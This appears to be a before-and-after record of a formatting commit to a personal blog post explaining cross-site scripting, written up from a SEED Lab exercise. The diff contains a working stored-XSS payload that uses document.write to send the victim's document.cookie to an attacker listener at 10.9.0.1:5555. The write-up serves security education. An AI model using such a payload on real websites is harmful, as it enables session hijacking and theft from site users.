

Before and after one commit to iukadike/blog, a Jekyll site: the page built from _posts/2023-08-04-xss.md, in a window 1280 px wide and 900 px high. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
update formatting

````diff
--- a/_posts/2023-08-04-xss.md
+++ b/_posts/2023-08-04-xss.md
@@ -9,14 +9,15 @@ Cross-site scripting (XSS) is a security vulnerability that allows attackers to
 
 There are different types of XSS attacks, including:
 
-- Reflected XSS: This type of XSS occurs when malicious code is injected into a website and then reflected back to the user. This usually occurs through a malicious link containing the injected code.
+- **Reflected XSS**: This type of XSS occurs when malicious code is injected into a website and then reflected back to the user. This usually occurs through a malicious link containing the injected code.
 
-- Stored XSS: This type of XSS occurs when malicious code is permanently stored on a web server and then served to users whenever they access a specific page or resource.
+- **Stored XSS**: This type of XSS occurs when malicious code is permanently stored on a web server and then served to users whenever they access a specific page or resource.
 
 XSS poses a serious threat to web applications as it can allow attackers to steal sensitive information, manipulate users experiences, and perform unauthorized actions. To prevent XSS vulnerabilities, web developers need to properly sanitize input gotten from users, encode all content gotten from the user, and implement security measures such as the Content Security Policy (CSP), which specifies what content can be executed on a website.
 
 In this post, I aim to document my findings and observations while performing a SEED Lab.
 
+<br>
 
 ### Posting a Malicious Message to Display an Alert Window
 
@@ -66,11 +67,11 @@ To accomplish this:
 
 - I set up malicious Javascript code that contacts the server with a GET request and the user's cookie as the data of the GET request.
 
-  ```javascript
-    <script>
-      document.write('<img src=http://10.9.0.1:5555?c=' + escape(document.cookie) + ' width=1px height=1px' + ' >');
-    </script>
-  ```
+  ```javascript
+  <script>
+    document.write('<img src=http://10.9.0.1:5555?c=' + escape(document.cookie) + ' width=1px height=1px' + ' >');
+  </script>
+  ```
 
 
 ![task-3-a](https://github.com/iukadike/blog/assets/58455326/b2093d5b-a156-4dae-a9ec-8518886b583c)
````
